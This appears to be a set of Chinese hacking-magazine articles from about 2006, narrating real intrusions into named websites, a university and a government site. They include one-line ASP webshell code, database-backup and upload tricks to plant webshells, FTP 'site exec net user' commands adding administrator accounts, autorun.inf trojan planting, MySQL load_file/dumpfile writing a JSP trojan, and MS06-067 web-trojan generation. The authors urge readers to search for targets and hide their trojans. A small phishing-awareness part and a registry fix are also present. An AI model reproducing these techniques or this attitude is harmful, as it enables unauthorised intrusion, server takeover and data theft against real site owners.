在百度搜索“本网站核心程序使用 动易网站管理系统”可找到大量目标站点，如图1。

打开工具后，在URL处输入目标站 `NewComment.asp` 的完整路径，点击“爆管理员帐号密码”，效果如图2。


成功后会显示管理员账号与MD5密码；文中继续说明可借助WhyTt工具定位目录并获取WebShell。

“web绝对路径”里，再依次点击“爆库名”“我要WEBSHELL”，如果运气好的话，在对方的web路径下会生成一个whytt.asp。这是一个海阳顶端一句话木马，密码为#，使用上一期职业欠钱提供的客户端可以很容易地连接上。（职业欠钱：上一期《IIS写权限的利用》中，我们介绍了一句话木马的使用，但是有些菜鸟在连接器输入目标地址并提交后，显示一个登录窗口，要求输入密码就不知道怎么办了。其实这里什么也不填，直接点“芝麻开门，偶是老马”就可以进去了。）

暴数据库的名字也是一样的，单击后下方会显示将“|数据库名|”转换为int型时出错，将两个“|”之间包含的数据库名填入“库名”处，再填入刚才查到的物理路径，比如 `E:\sky**.cn\article\help2.asp` 后，在“LOG备份”处分别单击“1”“2”……“5”，就可以得到webshell了，如图5。不过这里每一次点击要有一段时间的间隔，当大家看到有明确的回显数据后再点下一次，完成后还可以“删表”清理这一操作痕迹。


备份得到的一句话木马是lanker的 `<%execute request("a")%>`，要找一个客户端连接器，它的界面如图6。


图中标注出来的地方就是得到的结果，这个时候我们再按照图中的顺序依次点击“把目录写入注册表”，修改需要读取的目录序号后，单击“得到”就会在下方回显处得到结果了。它的操作麻烦了很多，但是因为给出了回显的全部数据，因此有时候也有助于我们判断错误的原因。


填入远程一句话的webshell地址后，提交。如果不发生什么意外，我们就会自动转到新生成的jmup.asp中，如图7。在这里我们可以上传任意ASP木马，就不再提了。

> **什么是0day**  
> 0day最初是用在破解的领域中，当时是指某个软件推出后在不到24个小时内被破解，并发布到网上与大家分享。但现在的安全界都将0day理解为还没有发布补丁的漏洞，因为没有补丁，所以这样的漏洞危害非常大。10月份很流行的两个IE漏洞就属于这样的0day。

### 四、结尾的话

动易是国内用得非常多的一个整站系统，包括一些大型黑客站点也使用它来发布新闻和文章。偏偏现在网上还公布出了那么多版本的利用工具，希望小菜入侵得手后要人道一点对待手中的WEBSHELL。

（文中涉及到的两个动易漏洞利用工具、海阳顶端一句话木马客户端、lanker的一句话木马客户端已收录至光盘中。）

## 纯社会工程学拿下黑鹰

黑鹰被黑了！真的假的？怎么黑的？自从小菜我发了张黑鹰被黑的黑页之后（图1），无数的大小黑都加了我的QQ询问。不少朋友一开口就说：“哥们你是不是用什么0day啊？”。为了回答大家的质疑，今天小菜我给大家讲讲如何拿下黑鹰的。

说来也巧，某天一个朋友让我帮忙搞一个站，成功拿下了那个站的webshell以后看到了它的数据库。最近突然有被QQ号的冲动，所以我就把该数据库下载回来看看有没有好的QQ号码。呵呵！打开数据库发现这个3M的数据库竟然有1600多个用户！不经意间发现了一个熟人的名字——冰河洗剑！（图2）


嘿嘿，常看X档案的朋友一定知道他吧？不多说，继续我们的正题。我继续寻找看着顺眼的QQ号码，这个时候我发现了黑鹰的管理员绝杀的资料（图3）。


很奇怪为什么绝杀也会在这里，不管了，好奇心的驱动使我忍不住去跑一跑他的MD5散列，结果非常幸运……那叫一个激动啊，更激动的是我用这个密码登录 `dvd.3800hk.com` 竟然也成功了（图4）！


短暂的激动和兴奋之后，我用绝杀的号在论坛里随便逛了很久，却发现不怎么好玩就走了。但是五天后读书回来，我有了种莫名的冲动，便再次登录了这个论坛去查看论坛上的短信信息。经过无数垃圾短信的污染视觉后，我发现了一个好玩的东西。在这里得到了黑鹰送给哥们的免费空间（图5、图6）！

利用这个免费空间上传了一个ASP木马，别的目录都跳不出去，可是E盘却是可以访问的！不过不知道黑鹰搞什么飞机，其他的权限设得那么BT，命令执行的控件也都删除了，却留下了这个E盘允许我们访问。在E盘看到了一个webmail，试着写了个ASP木马进去居然也成功了，这样就得到了 `cmill.3800hk.cn` 的webshell（图7）。


得到了webshell自然会想着提权，不然怎么能叫入侵呢？尝试了不下10种的提权方法可就是没成功，差点想替换服务然后DDOS逼他重新启动，不过好在理智战胜了冲动，最后我放弃了这个办法。

提出一点疑惑：现在流行的提权方法有这么多么？替换服务的方法也和权限的设置有非常大的关系，不见得就能成功吧？不过文章的重点不在这里，先不讨论了。

时间一分一秒地过去，黑鹰的管理员们也采取了行动，把我的黑页和webshell都删除了。不过我有FTP账号，不怕他。休息了一些时间以后，好友李丰初上线了，便跟他说了我的情况请他帮忙提权。一开始他也是束手无策，于是他问我：“你掌握了多少黑鹰的信息？”我回答道：“有三个FTP账号！”没想到几十秒之后他便成功地登录了黑鹰的系统，方法是在FTP里执行以下命令增加一个用户名为xxx的用户并将其提到管理员组中：

```text
quote site exec net.exe user xxx aaa /add
quote site exec net.exe localgroup administrators xxx /add
```

> （X小编：再一次提出疑问，Serv-U确实支持这种方式执行命令。但尴尬情况是FTP用户是没有这个权限的，或许作者运气比较好，得到的FTP账号中正好被人偷偷加了执行权限留作后门）

总结下，其实这次入侵的过程都是无意中得到了黑鹰版主的一个论坛帐号和密码，并且在对方的论坛消息中看到了些FTP用户，于是直接得到了webshell，最后通过FTP非常走运地添加了管理员登录到了远程终端，几乎没有使用到任何高超的技术，而仅仅是纯粹靠了点社会工程学，细心分析了手上仅有的信息，一步步扩大了战果。主要是给大家提点小意见，黑站并不是单纯地拿着工具就开扫、开始注入，多收集些信息结合社会工程学往往收获更大。

或许有些读者看完本文后会嗤之以鼻，认为作者无非是运气好而已。可是一篇真实的漫画《七龙珠》里龟仙人有一句话说得好：“运气也是实力的一部分！”……入侵过程中，信息和思路更重要，也祝大家都有跟作者一样的好运气。

### 新云网站管理系统


天气渐渐冷了，安全界也安静了好久了，肉鸡越来越少了。还好最近网上公布了新云网站系统的任意文件下载漏洞，又可以拿下好多网站。问题出现在flash文件夹中的downfile.asp文件中。相关代码如下：

```asp
<%
Dim url,strUrl,strPath
url = Replace(Replace(Replace(Request("url"), "'", ""), "\"", ""), "%", "")
' // 把URL中的 ' 换成空，% 换为空，\ 换为 /
If Len(url) > 3 Then
    If Left(url,1) = "/" Then
        Response.Redirect url
    End If
    If Left(url,3) = "../" Then
        Response.Redirect url
    End If
    If InStr(url,"/") > 0 Then
        strPath = Server.MapPath(".") & "\\" & url
        strPath = Replace(strPath,"/","\\")
        Call downThisFile(strPath)
    End If
End If
%>
```

表面上看我们提交的URL都进行了处理，“'”换成空，“%”换为空，“\”换为“/”，前三个字符不能为“../”进行目录跳转。但是，程序中的ASP语句仅仅是判断了前三个字符是否为“../”，那么我们就可以构造一个URL参数为“js/../../conn.asp”。本地搭建环境测试一下，提交地址 `http://127.0.0.1/flash/downfile.asp?url=js/../../conn.asp`，如图1。


哈哈，出现了下载页面！我们利用这样的方法就可以下载目标网站的任何文件了，包括conn.asp（数据库连接文件）……

## 一个人的战争

一个文件里面可是有数据库的路径啊！这个漏洞通杀目前的所有新云系统，连最新出来的都没打上补丁了。但是，很多大站都是使用 SQL 版的系统，如何利用还有存在很大的难题（一般远程无法连接到对方的 MSSQL 数据库），所以我们先看看 Access 版的系统如何利用吧！

我们在 Google 或百度搜索“Powered by: NewCloud SiteManageSystem Version”、“广告合作 下载声明 友情链接 网站地图”等关键字可以得到很多结果。随便选一个网站，在 IE 里面提交 `http://www.xxxx.com/flash/downfile.asp?url=uploadfile/../../conn.asp`，出现图 2 所示的下载页面。把 conn.asp 下载好后用记事本打开，如图 3。


这里的数据库相对路径是 `\database\#newasp.mdb`，那么完整的数据库地址就应该是 `http://www.xxx.com/database/#newasp.mdb`，把 `#` 替换为 `%23`，也就是 `http://www.xxx.com/database/%23newasp.mdb`，访问就可以下载对方的数据库了。打开下载的数据库，找到 nc_admin 的表，这里有所有管理员的账号和密码，把里面的 MD5 散列拿到 md5.com 查一下看看，运气还不错，破解出来了。

直接访问 `http://www.xxx.com/admin/admin_login.asp` 登录后台，来到“添加文章”，把我们的 ASP 木马的扩展名改为 `.gif` 后，通过上传图片的功能将它上传到服务器上。


| id | username | password | ... |
|---|---|---|---|
| 1 | admin | (md5) | ... |
| ... | ... | ... | ... |


现在切换到数据库备份功能，如图 5。“当前数据库路径”填写图片木马的相对路径，这里是 `/article/UploadPic/2006-11/200611161037943.gif`；“备份数据库名称”填我们的备份后木马名字，我使用的是 `help.asp`，然后点击“备份数据库”，提示成功了，如图 6。

拿我们的海阳一句话木马客户端连上去，出现了熟悉的界面，图 7。既然是漏洞介绍，获得了 webshell，我们的目标就达到了。

> （X 小站：其实我们更欢迎通过入侵实例的形式讲解漏洞介绍文章，不然好多读者写信说看不懂大家拿到 webshell 之后可以做什么……）

为了方便菜鸟，现在已经有人做出了专门的工具用来下载数据库连接文件。可惜某站 down 回来的工具竟然被绑了马！无语了，干脆连夜自己写了个程序，界面如图 8。把对方的网站填到里面的编辑框里，点击“下载”，如果成功的话就会出现下载数据库连接文件的界面。接下来的操作和前面没什么不同，也就是方便大家不用再手工输入那么多字母累着慌罢了。到此我们的入侵过程就结束了，别忘了擦擦 PP，找个比较隐蔽的地方养好你的木马，把图片格式的木马删掉，不然管理员发现了我们的小马就死定了。最后祝大家肉鸡多多。

## AutoRun.inf 提权重现江湖

Toryzen[H.Zi]

前些天班上要看生物录像，无奈光驱挂了，偶只好把心爱的 U 盘贡献了上去。几天后回家双击 U 盘竟然打不开，右键多出个 auto。不用问，一定中毒了。右键选择“打开”进入，发现里面空空如也。在资源管理器的“工具”-“文件夹选项”中切换到“查看”选项卡，选择“显示所有文件”后竟然还什么也没有！这就怪了，忽然间发现“显示所有文件”之上还有一个“隐藏受保护的操作系统文件（推荐）”，如图 1。去掉那个勾后病毒终于现身了，这时 U 盘多了两个文件 autorun.inf 和 sxs.exe（半透明状）。用记事本打开 autorun.inf 看到里面的内容，如图 2。


偶不想看到哥几个为了个私服成天通宵都变成熊猫眼，就想要拿下服务器为兄弟们弄点装备好好玩玩。私服的网站和传奇服务端都在一个服务器上，所以首先检测一下这个私服的网站，看看有没有什么能利用的漏洞做入口点。打开私服首页，心凉了半截，原来是 htm 站点（纯静态页面），如图 3。


看来这个网站不好下手了，打开明小子综合检测工具，发现这个 IP 上还绑定了 3 个域名，如图 4。


### 小知识：什么是 autorun.inf？

大家在日常生活中使用光驱时可能会发现，有时候光盘刚放进光驱就自动弹出了一个窗口运行了一个程序，这就是光盘的自动播放功能。它的实现是通过在光盘根目录下放置一个 autorun.inf 文件，这个文件的内容格式一般是：

```ini
[AutoRun]  // 表示 AutoRun 部分开始，必须输入
icon=test.ico  // 给光盘一个漂亮的 ICO 图标
open=1.exe  // 指定要运行程序的路径和名称，这里是光盘当前目录下的 1.exe
```

被放置了 autorun.inf 的光盘，双击会自动执行里面的命令运行 1.exe。事实上这个功能不仅对光盘有效，对任意磁盘分区和 U 盘这种移动设备都有效，U 盘病毒就是通过它来传播的。

我盯着这个 autorun.inf，突然之间灵感大发，能不能利用这个来提升权限呢？这些日子几个哥们都在玩“网通传奇”私服，打开其中的一个好像是个公司网站（一般来说小公司网站安全性都不高），在网站内来回穿梭并注意着地址栏，找到了有可能注入的地方 `http://www.xxx.com/newsinfo.asp?id=50`，把它填到明小子“SQL 注入”功能里的地址栏，单击“开始检测”，不一会它的 manage_user 就跑了出来，如图 5。

只有一个用户名 admin，密码是 md5 加密过的，把 md5 值复制到 www.cmd5.com（一个在线 md5 破解的网站）进行查询。如图 6，很幸运地查出了明文密码。现在切换到明小子的“管理入口扫描”选项卡进行扫描，本人运气一向很好，不一会它的后台就摆在了我的面前，如图 7。


更幸运的是，这个后台还有个备份数据库的功能，这就简单多了。把 ASP 木马的扩展名改为可以上传的格式，利用备份数据库功能把它改回为 asp，成功得到了 webshell，如图 8、图 9。


虽然说服务器并没有设得很 BT，但仅限于更改网站所在盘里的内容，不能更改传奇服务端所在的 E 盘文件，如图 10。

正当无奈之时想到了本文开头时遇到的病毒。我详细阅读了以前的黑客 X 档案后明白了以上代码的功能：只要把该文件放到了某个分区的根目录，那么如果服务器重新启动后 autorun.inf 就会生效，网管双击 F 盘就会根据 autorun.inf 中的命令运行我们埋伏好的木马！

所以现在我就配置了一个鸽子被控端，并命名为 80.exe。用记事本打开前文中提到的 autorun.inf，把里面的 sxs.exe 全部替换为我们的鸽子名（80.exe），然后把这两个文件通过 webshell 上传到网站所在盘的根目录下，如图 11。

接下来需要做的仅仅是等待了：先等服务器重新启动，还要等网管再双击打开 F 盘运行我们的鸽子。幸运之神再一次光临了我，没过两天鸽子就上线了，如图 12。

现在整个服务器的权限都在我手上了，给哥们加些装备之类的又有什么难的呢？这就是 U 毒给我带来的启发。大家有什么好的思路、好的启发，也快来 X 论坛共享吧！

> 小编点评  
> 利用 Autorun.inf 病毒在各个分区根目录内进行传播，配合上传的木马可以形成持续控制链路。文中案例说明了通过弱口令、后台功能滥用、文件上传与自动运行机制串联，最终获得更高权限的过程。

## Phpwind 最新漏洞利用

zj1244 小葵（曾佳）

最近网上真是热闹，不断有漏洞爆出。（小编：毒药说网上冷清是因为他那篇文章给得早，小 Z 这文章是截稿日过了之后才补上的，这段时间网上正热闹呢。）菜鸟们忙得不亦乐乎，实践的实践，抓鸡的抓鸡。Discuz! 和 Sablog-X 的余热还没有退去，PHPWIND 就带着漏洞起来了。PHPWIND 是国内流行的 php 论坛程序之一，不少著名的安全技术论坛都使用的是它，不知道前段时间 EST 被人入侵和它的漏洞有没有什么关系呢？

这个漏洞是在 http://milw0rm.com 上公布的。我在这里简单说下漏洞形成过程：这个漏洞是由于 admincp.php 文件没有对 Cookie 里的 AdminUser 进行严格过滤，在代码第 118 行获得 AdminUser 的值后，直接用 explode 分割了 AdminUser，便放到了变量 CK，然后包含我们精心提交数据的 CK 被带到了 checkpass 过程。最后我们在查看 checkpass 过程的时候发现 CK 被放到了 SQL 语句里查询（第 258 行）。有兴趣的朋友可以自己查看 admincp.php 文件，这里不再详细分析。这里顺带说一句：这个漏洞利用的前提是 php.ini 中的 `short_open_tag = off`。

### 小知识：short_open_tag 标签的作用

short_open_tag 表示是否允许 php 程序中使用短标记如 `<? ?>`，默认为 off；也就是说，必须使用 `<?php ?>` 来包含 PHP 代码。不过本人用 Apache 环境，short_open_tag 为 On 的时候也测试成功了，不知道为什么。

说完枯燥分析后，接下来是小菜们最关心的问题了——如何利用？http://milw0rm.com 上公布了 PHP 版利用工具，它的使用首先需要在本地安装一个 PHP 环境。将光盘中收录的 PHP 环境压缩包解压到某个目录下，比如 `C:\php`，打开 CMD 并切换到该目录后，输入 `php.exe phpwind_exp.php` 可以看到它的用法，图 1。


从格式中我们可以看到比较详细的说明，`-p` 参数是指定其它端口。假设某个论坛的访问地址是 `http://www.xxx.com:8080`，就需要指定 `-p8080`。大写的 `-P` 参数可以支持代理，不过我们可能没有什么必要。接下来我们可在百度等搜索引擎里搜索“Powered by PHPWind”，就可以找到 N 多目标。这里找到一个 `http://www.xxx.com/phpwind/`，如图 2。在 CMD 中输入 `C:\php\php.exe phpwind_exp.php www.xxx.com /phpwind/`。经过一顿饭的时间，我们看到如图 3 的结果。

进了后台做什么？小菜肯定是要拿 webshell 咯！不过偶对 PHPWIND 也不够熟，只想出了个 Windows 环境下利用 PHPWIND 没有对 asa 类型文件扩展名做限制拿 shell 的方法。首先到后台“发帖与附件设置”，在“上传附件允许后缀”处加上“asa”类型文件，如图 6。然后可到前台任意版面去发个帖子，找个 ASP 木马改扩展名为 asa 上传到论坛上……

新上传的附件如图 7。在这里点开的 asa 文件就能够得到一个 ASP 的 webshell 了。


最后说明：这个漏洞的利用真的很让人郁闷，程序跑起来太慢了，同时由于 PHPWIND 下返回的消息都是不可识别的乱码，所以没能为大家开发出一个好用的工具出来。如果有谁知道如何处理这个问题还望告诉我，我在论坛的 ID 是 zj1244。

## 再攻巅峰权限

## 沧四川理工学院安全检测 II

渗透玫瑰 [N.C.P.H]

**编者按：**

作者本月一下投来两篇稿件，其中有一篇名为《漫长的渗透》，讲述了对四川理工学院主站安全检测过程，历时六个月时间才拿下主站权限。文中拿到主站最高权限的方法简单地说就是：Google 搜索关键字 site，学校网站得到一个注射点，通过注射点遍历目录找到一个数据库扩展名为 asa 的留言本，往该留言本里写入小马得到 webshell；通过管理员权限提升不严格，将管理页常用的杀木马软件（木马杀客，musk.exe）捆绑了一个免杀木马，然后修改首页给管理员留言说有人入侵了。管理员发现后上当去运行杀毒软件，也就同时运行了那个木马，因此得到了服务器最高权限。本文是继《漫长的渗透》之后，再一次对学校分站服务器的检测。

### 一、分站的起点权限

首先是 7 个月前，对主站进行检测无功而返时，顺便对分站进行了下检测。很顺利地通过上传漏洞得到了一个 webshell 并留下了 N 多后门，插了 N 多一句话木马。这次回来的时候发现大马全被干掉了，好在一句话木马没有被清理干净，拿客户端连接上去之后发现所有的 IIS 访问权限都被降为 guest 了，对大部分目录都只能读不能写。好在有一个 upfile 目录，看名字就知道是用来上传文件的，试着往里面上传一个大马，成功了！再传个 php 木马发现居然成功执行了，看来自已很幸运！如图 1。


### 二、初次提权失败

- 先看看服务器的大致情况：
  1. 支持 PHP，安装有 MySQL，PHP 木马里无执行命令权限。
  2. 装有 Serv-U，版本为 6.3。Serv-U 是独立启动用户，除了权限还设了本地密码。
  3. 支持 MSSQL，但是得到的账号全都是 DB 权限。
  4. 每一个网站都用了单独账号，并且权限是 guest。
  5. F 盘可以完全浏览，但是其它盘无法读取。

> （汗，作者写文章有个习惯是想到哪写到哪，不爱写得很有条理。具体操作步骤，看到这里的时候我其实迷茫了。Serv-U 6.3 的那些情况作者是如何判断的？IIS 用户是哪个组是如何看到的？）

了解完服务器的大致服务和权限设置，Serv-U 提权是没戏了，MSSQL 找不到 SA 连接账号，那就只能看看 MySQL 的 root 密码有没有戏了！在 PHP 木马中浏览到 `C:\Windows` 发现是可读的，在里面找到 my.ini，读取其内容后顺利找到了 root 用户密码。

> （这篇文字主要体现：为了系统能够正常运行，管理员通常不会设置 `C:\Windows` 和 `system32` 这两个目录的权限。因此在 webshell 里可以读取这两个目录下的内容。同时 MySQL 数据库安装后，很多配置会沿用以前习惯，把 my.ini 放到 Windows 目录中，这个文件很可能包含 root 用户密码。具体在哪就要靠大家自己观察了。）

既然得到了 MySQL 的 root 账号，那么尝试一下创建 Create Function 提权的方法吧！首先上传一个 mix.dll 到服务器上，然后在 php 木马中切换到“执行 SQL 语句”，填入 MySQL 的 root 用户和密码，数据库名填“mysql”，单击“连接”，在命令编辑框里输入：

```sql
create function mixconnect returns string soname 'F:\\wwwroot\\jxxs\\jkx\\upfile\\mix.dll';
```

提交后提示出错，如图 2。猜测 MySQL 版本是 5.0 以下的，我也试着把 mix.dll 写入表导出到系统目录，还是出错，搞不懂了，难道管理员做了权限限制？反正在这里用了各种方法转了老半天还是没结果。


（小编：从作者给的图 1 里可以看到那个 phpspy 本来就带一个 Func 反弹 shell 的功能，很奇怪为什么不用它来试试？）

### 三、峰回路转

MySQL 提权失败了就换个思路呗，再去别的地方转转看。我相信能列目录就还有东西看，就还有希望！有的人常常说我运气好，其实很多发现是靠自己细心，而不是运气。你在时局里有了优势，会“运气好”些。开始的目录虽然可以列出来，而且里面全是二级域名的网站，但是那只是能看不能写，现在很多网站管理员系统都是这样设置的。转来转去终于发现一个可疑目录，如图 3。


看了这个目录有点疑惑，有点像 Apache，可又有点不是。反正应该是另一套网站平台安装目录。这个服务器已经有 asp 和 php 了，难道还有传说中的 jsp？于是我 `telnet 61.139.105.132 8080`，发现这个端口是打开的，看来看有戏了。在 IE 中访问 `http://61.139.105.132:8080`，如图 4。


难道支持 JSP 是真的？冷静下来再仔细翻翻刚才那个目录，在 root 目录下找到个 index.jsp，看了一下源文件，和这个页面差不多，一阵惊喜。谁都知道 jsp 木马可能拥有系统权限！

### 四、柳暗花明

可能大家都会说，传一个 JSP 木马到这个目录不就行了？可是大家别忘了，JSP 目录我们是没有写权限的！怎么办？刚才 MySQL 添加扩展函数虽然失败了，但是它是以 SYSTEM 权限启动的，所以 MySQL 应该对任意目录都有写权限，那就用它来弄个 JSP 木马过去吧！

方法很简单：先在自己的目录里上传一个 JSP 木马，得到路径是 `f:/wwwroot/jxxs/jkx/upfile/rose.jsp`，然后在 MySQL 执行 SQL 语句处输入以下语句：

```sql
create table test(line blob);
insert into test values(load_file('f:/wwwroot/jxxs/jkx/upfile/rose.jsp'));
select * from test into dumpfile 'f:/resin/webapps/ROOT/cmd1.jsp';
```

它的意思是创建一个表，将一个 jsp 木马通过 load_file 保存到这个表中，再把这个表内容通过 dumpfile 函数写出到 JSP 所在目录。执行后浏览该目录可以看到 cmd1.jsp 已经乖乖躺在那儿等着我们的召唤了，如图 5。访问后执行个命令加个账号，一样成功了，如图 6。


很多时候我们都喜欢觉得到了 3389 才算到了完美的巅峰权限。同样，我也传了一个开 3389 的工具上去，建用户、开启 3389，成功后页面如图 7。


### 五、总结

文章没有太多技术性，想说的是在入侵过程中，我们一定要注重思维的发散性，不要死在一个地方。要把有用信息收集起来，综合利用。

信息收集是很重要的。在得到一个 webshell 无门可施的情况下，尽量浏览 webshell 能浏览的东西，收集有用信息，有时候会有意想不到的收获。我曾经在无法提权的情况下，通过一个分站服务器找到了一个保存有主站 FTP 连接程序，轻松拿到了主站的 FTP 用户名和密码。

## 菜鸟三式征服 WebShell

转眼间，X 档案已伴随我走过了 3 个月。看着前辈们的一篇篇文章，心里也有想写点东西的冲动。这里算是对这 3 个月学习成果的一次小结：菜鸟们也来拿个 WebShell！


### 第一式：动网论坛数据库备份得 Shell

关于动网的漏洞，早期版本后台存在数据库相关功能点。文章说明了通过数据库文件处理思路获取管理员信息，并提醒不要随意双击可疑数据库文件。

接着介绍上传 WebShell 的准备：先构造可通过检测的数据库文件形式，再配合文本文件写入一句话代码，为后续恢复数据库步骤做准备。

```asp
<%eval request("#")%>
```


然后在命令行使用 `copy /b 1.mdb+1.txt 2.jpg` 将文件合并，上传到论坛后取得路径，在后台“恢复数据库”处填写相对路径并恢复，生成 `shell.asp`。


提示恢复成功后，可访问论坛目录下的 `shell.asp` 得到一句话入口，再用客户端连接目标地址。若弹出登录框，文中提到可尝试空密码进入。

### 第二式：上传漏洞得 WebShell

我们的目标是 http://www.ce.zjut.edu.cn/。在首页的下方有“管理”的字样，这样就省去了我们找后台的麻烦。随便看了看整站，找到个注射点，填进阿D注射工具中，很快就跑出了对方的管理员用户名、密码 MD5 散列，拿到在线破解网站（例如 www.cmd5.com）跑跑，得知密码是 2 位字母 hc，如图 5。


密码这么简单，不被入侵才怪呢！真不知道现在的管理员怎么想的。输入我们刚才得到的用户名和密码进入了管理后台，结果他只是个普通的管理员，没有数据库备份的权限。在添加文章那里有上传功能，不过估计不能上传 asp 文件。难道我们现在就没办法了吗？嘿嘿，3 个月的 X 档案也不是白看的，这回我们就来抓包，取得上传图片的提交地址和 cookies 来绕过限制！


打开 WSockExpert.exe，找到管理后台的页面，如图 6。接下来把我们的小马改成扩展名为 `.jpg` 上传，如图 7。现在看看我们抓到的包，如图 8。


POST 后面的是上传页面的提交地址，补充完整后就是 `http://www.ce.zjut.edu.cn/new/admin/upfile.asp`，下面的 cookies 是我们等会上传时候要利用的。打开 domain3.5 选择动力上传，把我们刚刚得到的提交地址和 cookies 填到对应的地方。我们在这里选择 `/upfile_SofePic.asp` 页面的上传类型，点上传，看程序提示成功了，如图 9。


我们找到刚才上传小马的地址，打开看看是不是成功了！嘿嘿，看我们的小马是不是在那里安安静静地躺着啊，如图 10，哈哈……（高兴中）


总结一下这种方法得 Shell 的思路：

- 1. 找入口
- 2. 解密码
- 3. 抓包，传马

就这么简单。

> （以下略，原文为一段关于注入与上传可执行文件限制的说明性引言，位于左上角圆角框内。）

### 第三式：差异备份得 Shell

相信和我一样的菜菜每天都会拿着阿D乱注入吧？是不是发现许多数据库是 MSSQL，权限是 DB_owner 的注射呢？如果你比较幸运，遇到了能满足以下几个条件的网站了，那就恭喜你，一个可爱的 Shell 就要到手了。

- 1. 要有列目录的权限（能列目录当然不能低于 DB_owner）。
- 2. HTTP 500 错误不是自定义。
- 3. WEB 和数据在一块，还有的就是数据库中不能存在 `%` 号之类的。

（如果你不能列目录，但是知道网站的物理路径也是一样的。）

好，现在我们的目标是 `http://www.*****.gov.cn/`。用阿D发现注入点是 `http://www.*****.gov.cn/zw_148/p.asp?lan=47&id=15688`，是 DB_owner 的权限。我们用文件查找功能来找一下，可以发现它的物理路径是 `D:\www.root\*****.gov.cn\`，如图 11。

现在我们用 getwebshell 这个小工具来进行差异备份。注入点、数据库里就填刚刚找到的，web 路径填它的物理路径，在它的后面加个要写入一句话木马的页面，如图 12。接下来就是不停地点击第一步、第二步直到第六步。现在我们访问一下 `http://www.sfj.dl.gov.cn/55.asp` 页面，出现了“类型不匹配: execute”就说明我们的马写到了数据库中。接下来就用修改好的蓝屏大叔最小 ASP 马连接，看可爱的 Shell 是不是出来了，如图 13、图 14。

好了，现在 Shell 拿到了，剩下的怎么做各位自己发挥吧！（文章中涉及到的海阳顶端一句话连接器、Domain 3.5、阿D 注入工具已收录到光盘中。）


## QQ 尾巴是这么骗我们的

经常有朋友中毒后，QQ 上就老发一些类似于图片、精简信息给我们，不小心点了这些链接，很可能我们也会中毒，然后给更多的人发送邀请码……

不过看得多了以后，我们也发现了些规律。现在的 QQ 尾巴骗人的方法，就是弄一个像真正的 QQ 网站的地址，然后加一些诱惑人的话；但是只要仔细辨认，还是可以看出里面的猫腻的。以图中的网址为例吧：`http://Q-Zone.QQ.COM.%37%76%34%2E%63%6E/Q-zone/Cgi_bin/Entry-Cgiuin=98393211`，里有一部分是 `%` 加一些数字，把它们还原后，这个地址就是 `7v4.cn`。而网址（URL）是从后往前数的，比如 `qq.com.7v4.cn` 这种地址就是访问 `7v4.cn` 的一个名叫“qq.com”的二级分站。以后大家再看到类似的消息一定要注意了，千万不要瞎点啊！


## 抢先体验漏洞：最新漏洞 MS06067

沙漠之狐


涉及程序：Microsoft IE daxctle.ocx KeyFrame  
漏洞详细描述：Microsoft IE 的 daxctle.ocx ActiveX 控件实现上存在堆溢出漏洞，远程攻击者可利用此漏洞在用户机器上执行任意指令。  
Multimedia Controls ActiveX 控件（daxctle.ocx）的 CPathCtl::KeyFrame() 函数存在溢出漏洞。如果 HTML 文档对 ActiveX 控件的 KeyFrame() 方式传送特制参数，则用户受骗访问了这样的恶意 HTML 文档就会导致执行任意代码。  
受影响的系统：Windows 2000 SP4 / Windows XP SP1 & SP2 / Windows 2003

刚刚过去的这个星期二，微软公司继续针对漏洞百出的 Windows 系统发布了最新的 11 月安全补丁公告。让所有网管人员心惊肉跳的是，在 6 个安全漏洞中，有 5 个的危害级别被定为“严重（critical）”，另一个漏洞危害级别为“重要（important）”。微软宣称，在 5 个“严重”安全漏洞中，有 4 个漏洞与 Windows 操作系统有关，另一个与微软 XML 核心服务包有关。

今天就带大家来体验其中 IE 高危级别的漏洞 MS06067。由于此漏洞涉及多款 IE 版本，所以危害很大。下面就带大家来看下此漏洞的测试过程。首先来编译 shellcode，费了好大的心思才从国外的网站上 down 下来，不愧是 0Day，隐藏得够深啊！

由于是 C 语言代码，所以要编译成可以直接利用的 EXE 文件才行。这里简单介绍下 C 语言代码的编译方式，以后大家也可以自己编译，体验 0Day 的刺激！

### 一、手动编译漏洞代码

如何编译代码呢？在 Windows 平台下，我们一般用 VC 的编译器 CL 来编译我们的源程序；但在 Linux 平台下，人们一般使用 GCC（GNU Compiler Collection）。GCC 也有在 Windows 平台下的移植版本——DJGPP。有了 DJGPP，我们就可以在 Windows 平台下使用 GCC 了。GCC 和 CL 一样，可以编译 C++ 代码；那我们为何要使用 GCC 呢？我想最主要的是因为它是开源的 FREE SOFTWARE！


漏洞的利用代码这里就不公布了（因文章结束的时候比较晚，所有相关代码和工具我们将在网站上提供下载）。有兴趣的朋友可以看看，学习高手如何编写 shellcode。编译成 exe 的时候，我们需要修改两个 BAT 文件，分别是 MAKEEXE1.BAT 和 MAKEEXE2.BAT。例如：右键打开 MAKEEXE1.BAT，将文件中的“%1”改为实际的文件名即可。如要编译 MS06067.c 的话，就将 `%1` 改为 `MS06067`。如此改动后，将漏洞代码文件 `MS06067.c` 放在同目录下，然后双击 MAKEEXE1.BAT，就出现了 `MS06067.exe`，OK，编译成 EXE 程序了，也就是传说中的“MS06067 网马生成器”，呵呵，就这么简单，如图 2。


### 二、漏洞测试

我们来搭建一个本地测试平台，我本地测试！先来生成一个 ms06067 的网马，`text.exe` 就使用“Windows 按钮终结者”。

命令格式：`ms06067.exe http://127.0.0.1/text.exe ms06067.htm`


打开 Http 傻瓜服务器，可以使本地实现一个 Http 平台，如图 4。


在 IE 地址栏输入 `http://127.0.0.1/ms06067.htm`，如图 5。打开网页，弹出了 Windows 按钮专家，而且木马不弹窗、不闪、不卡，真正做到了杀人于无形！而且生成的网马只有一个文件，制作免杀也非常方便，真是“居家旅行、杀人越货”之必备良药！我的系统是 XP Home Edition SP2，居然中了，汗，不愧是高级致命的漏洞，如图 6。


### 三、漏洞修补

通过以上简单测试，相信大家已经对这个漏洞的危害性有所了解。没打补丁的朋友最好第一时间打上补丁，免得中招！如果没有下载补丁，还有手动修复方法。将以下内容保存为 `.reg` 文件后双击导入注册表就可以了。

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{D74A7D7C-3D47-11D0-89D3-00A0C90833E6}]
"Compatibility Flags"=dword:00000400
```

（文章中涉及到的工具和代码可以到论坛的农具店铺下载。）


## 建立自己的批处理杀毒程序

昱伟

在《黑客 X 档案》2006 年第 8 期的“让菜鸟来认识 rose 病毒”一文中，作者对 rose 病毒作了系统详细的分析，并给出了手动查杀方法。本文以该病毒的变种 copy 病毒为例，介绍如何建立查杀 copy 病毒的批处理程序。

